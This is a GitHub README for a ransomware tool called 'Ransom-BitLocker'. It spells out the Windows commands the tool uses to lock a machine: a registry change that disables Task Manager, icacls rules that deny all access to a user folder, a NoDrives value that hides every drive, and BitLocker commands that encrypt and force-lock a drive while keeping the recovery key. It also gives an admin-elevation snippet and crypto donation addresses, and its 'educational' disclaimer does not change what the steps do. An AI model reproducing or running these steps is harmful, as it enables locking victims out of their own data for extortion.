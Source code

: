 <div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption)</b></h1>
  <img src="Bitlocker.png" alt="BitLocker" width="300">
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests

## Run Command
- Make sure to run with admin privileges for cmd or Add this code at the top of `EncryptionBitLocker.py` and `DecryptionBitLocker.py` to ensure admin privileges:
  ```python
  def run_as_admin():
      if ctypes.windll.shell32.IsUserAnAdmin():
          return
      else:
          ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
          sys.exit()
  run_as_admin()
  
**Run Encrypt**
 ```cmd
  python EncryptionBitLocker.py
  ```
**Run Decrypt**:
  ```cmd
  python DecryptionBitLocker.py
  ```
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
